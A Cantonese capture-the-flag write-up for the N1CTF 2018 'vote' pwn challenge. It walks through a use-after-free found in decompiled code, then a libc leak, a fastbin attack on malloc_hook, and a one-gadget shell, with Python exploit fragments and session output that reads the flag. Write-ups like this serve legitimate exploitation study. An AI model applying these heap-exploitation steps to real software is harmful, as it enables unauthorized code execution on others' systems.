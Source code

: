 # vote 250(pwn)

題目:

>hk node: nc 47.90.103.10 6000
>
>cn node: nc 47.97.190.1 6000
>
>(Two challenge servers are identical, use either of them.)
>[Download](b8a4590d-9fee-4a34-8396-d63adac62a0d.zip)


menu:
```
0: Create
1: Show
2: Vote
3: Result
4: Cancel
5: Exit
Action: 
```

呢條係經典嘅 use-after-free 題目

Create 嘅 code:

```C++
void sub_400D2C()
{
...........
for ( i = 0; i <= 15; ++i )
  {
    if ( !*(&ptr + i) )
    {
      sub_400C52(4199328LL);
      v2 = sub_400C90(4199328LL);
      if ( v2 > 0 && v2 <= 4096 )
      {
        v0 = malloc(v2 + 16);
        *(_QWORD *)v0 = 0LL;
..............
}
```

Cancel 嘅 code:

```C++
void sub_40109D()
{
  char *v0; // rsi@8
  int v1; // [sp+Ch] [bp-4h]@1

  sub_400C52("Please enter the index: ");
  v1 = sub_400C90("Please enter the index: ");
  if ( v1 >= 0 && v1 <= 15 && *(&ptr + v1) )
  {
    if ( --qword_602180[v1] == --*(_QWORD *)*(&ptr + v1) )
    {
      if ( qword_602180[v1] < 0 )
        free(*(&ptr + v1));
    }
    else if ( qword_602180[v1] < 0 )
    {
      v0 = (char *)*(&ptr + dword_602160) + 16;
      printf("%s", v0);
      fflush(stdout);
      sub_400C00(" has freed", v0);
      free(*(&ptr + v1));
      *(&ptr + v1) = 0LL;
    }
  }
}
```

個bug就係free 之後冇清返ptr array 相應entry做0,引致UAF

有一個注意位就係,如果我request 0x20 name size, 實際會return 0x40 嘅object(冇睇清楚ida code嘅後果.........) 

之後就係基本套路 leak libc-> fastbin attack -> get shell


不過由於冇得直接edit, 所以有好多error chk 要bypass .....


當leak完 libc, triger consolidation之後, malloc 一個大少少嘅chunk 覆蓋晒之前個d chunk 嘅address

之後再寫假嘅meta data 去上一手memory address 相應嘅位置 (error chk bypass eg 前後位size 要match  )

再free 返chunk 0 防止再malloc 個陣triger heap inside freed heap error 



之後malloc一個0x50(0x70) 拎左最頂塊chunk,再malloc 一個0x50(0x70) fastbin 就可以有arbitary writing...

```python
create("qqqq",0x50)
create("A"*3+p64(rce)*4,0x50)
print "[+]get shell :)"
r.sendline("0")
sleep(1)
#triger one gadget
r.sendline("4000")
r.sendline("$0")
r.sendline("ls -al")
r.interactive()
```

Contest 個陣唔知點解local libc 會有size error, 於是加左個for loop 令個malloc_hook layout valid返...

可能之前打錯size 掛??


```python
#just to make the structure around main_arena "align"
#to bypass the malloc checking
#for i in range(1,11):
#    create("QQQQ",0x10*i)

````

solution: [solve.py](solve.py)

```
# [*] '/root/Desktop/CTF_Game/n1ctf_2018/vote/libc-2.23.so'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Paused (press any to continue)
# 139870119717752

# 0x7f360ccceb78
# leaked libc =0x7f360c90a000
# malloc_hook = 0x7f360ccceb10
# one = 0x7f360c9fa274
# [+]get shell :)
# [*] Switching to interactive mode
# Please enter the name's size: total 36
# dr-xr-xr-x 2 pwn  pwn   4096 Mar 10 18:38 .
# drwxr-xr-x 3 root root  4096 Mar  8 15:28 ..
# -rw-r--r-- 1 pwn  pwn    220 Mar  8 15:28 .bash_logout
# -rw-r--r-- 1 pwn  pwn   3771 Mar  8 15:28 .bashrc
# -rw-r--r-- 1 pwn  pwn    655 Mar  8 15:28 .profile
# -rw-r--r-- 1 root root    26 Mar  9 11:12 flag
# -rwxr-xr-x 1 root root 10544 Mar  8 15:29 vote
# $ cat flag
# N1CTF{Pr1nTf_2333333333!}
# $  

```
